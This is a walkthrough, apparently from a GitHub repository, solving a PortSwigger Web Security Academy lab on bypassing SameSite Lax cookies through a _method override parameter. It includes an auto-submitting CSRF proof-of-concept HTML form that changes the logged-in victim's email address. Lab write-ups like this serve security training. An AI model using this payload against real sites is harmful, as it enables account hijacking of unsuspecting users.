 ## Lab Description: SameSite Lax bypass via method override 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2591f2ef-6cec-4684-ba8c-0798eba59637)

## Solution: 

Go to My-Account and Log In to the account with the above credentials and change your email address.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f249ba35-c937-4d19-a959-b8e3ff5903a6)

Send the POST /my-account/change-email request to Burp Repeater.And Study the POST /my-account/change-email request and 
notice that this doesn't contain any unpredictable tokens so may be vulnerable to CSRF if you can bypass the SameSite cookie restrictions.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/3630dd9b-2d9a-44ee-a539-ec0e9d52700b)

Look at the response to your POST /login request. Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. 
As a result, the browser will use the default Lax restriction level.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8e31717b-5ad2-4e4a-bf13-af89dfc49f20)

Recognize that this means the session cookie will be sent in cross-site GET requests, as long as they involve top-level navigation.

In Burp Repeater, right-click on the request and select Change request method. Burp automatically generates an equivalent GET request.
And send the request. Observe that the endpoint only allows POST requests.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8ee9a52d-66b3-407d-a8be-2869bcd340f8)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/9fb8072a-ab60-463e-b210-b3d0e893700b)

Try overriding the method by adding the _method parameter to the query string:
```
/my-account/change-email?email=foo%40web-security-academy.net&_method=POST
```
Send the request. Observe that this has been accepted by the server.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2c92a17e-f57f-4ef0-ad54-6cad61f088c5)

Now Generate POC for this request to Bypass Samesite Cookie

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b5fd7940-4fa1-4eca-a882-8c1d56188b6f)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3d007b045ae83d80e65da0004500ce.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="cyber123&#64;gmail&#46;com" />
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/72b389d1-f283-457f-a1ee-f82fbcdb3fa5)

Hence We Solved our Lab

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/fa95736a-228b-4a45-a8ca-aed23da1d053)

